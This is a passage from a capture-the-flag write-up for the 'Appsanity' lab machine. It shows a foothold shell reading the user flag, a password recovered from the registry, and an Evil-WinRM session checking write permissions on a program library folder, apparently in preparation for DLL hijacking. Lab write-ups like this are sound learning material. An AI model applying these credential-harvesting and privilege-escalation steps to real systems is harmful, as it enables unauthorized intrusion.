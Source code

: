 ```
c:\Windows>whoami
whoami
appsanity\svc_exampanel

c:\Windows>cd C:\Users\svc_exampanel\Desktop
cd C:\Users\svc_exampanel\Desktop

C:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
6e784e2783281fb5e75a95244fcc3b4f
```

And the user flag as been Found.

## Root Flag

After a little but of enumeration. We need to do lateral escalation to escalate to the user `devdoc`.

I found an interesting dll after so much time.

```
c:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll
```

<figure><img src="../src/Appsanity/regq.png"></figure>

I queried the register and found the password to be `1g0tTh3R3m3dy!!`.

Let's login to the user we enumerated previously with this credentials.

```
*Evil-WinRM* PS C:\Program Files\reportmanagement\Libraries> icacls "C:\Program Files\ReportManagement\Libraries"
C:\Program Files\ReportManagement\Libraries APPSANITY\devdoc:(OI)(CI)(RX,W)
                                            BUILTIN\Administrators:(I)(F)
                                            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                            BUILTIN\Users:(I)(OI)(CI)(R)
                                            NT SERVICE\TrustedInstaller:(I)(CI)(F)
                                            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(RX)
                                            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
